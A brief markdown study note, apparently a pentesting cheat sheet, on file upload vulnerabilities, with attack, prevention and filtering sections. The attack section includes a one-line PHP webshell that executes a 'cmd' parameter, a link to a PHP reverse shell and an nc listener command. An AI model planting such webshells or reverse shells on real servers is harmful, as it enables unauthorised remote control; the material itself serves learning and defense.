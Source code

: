 # Upload Vulnerabilities

## Attacking

- Overwriting existing files on a server
  - Overwrite the same file name on the src path
- Uploading and Executing Shells on a server
  - Webshells
  ```php
  <?php
    echo system($_GET["cmd"]);
  ?>
  ```
  - Reverse/bind shells
    - https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php
    - `nc -lvpn 1234`
- Bypassing Client-Side filtering
- Bypassing various kinds of Server-Side filtering
- Fooling content type validation checks

## Prevention 

- Assign the file with a new name or random or date and time
- Check filename already exists on the server
- File permission to protect existing files from being overwritten

## Filtering

- Extension validation
  - Blacklist
  - Whitelist
- File Type Filtering
  - MIME validation
    - Multipurpose Internet Mail Extension
      - image/jpeg (format: <type>/<subtype>)
      - Easy to bypass
  - Magic Number validation
    - A string of bytes at the very beginning of the file content
    - More effective than checking the extension of a file
    - Example: a PNG file at the very top of the file
      - `89 50 4E 47 0D 0A 1A 0A` = `.PNG.`
- File Length Filtering
- File Name Filtering
  - Sanitise any `bad characters` (e.g. null bytes, forward slashes, control char `;`, unicode char)
- File Content Filtering
  - Scan the full contents to ensure that it's not spoofing its extension, MIME type, Magic Number

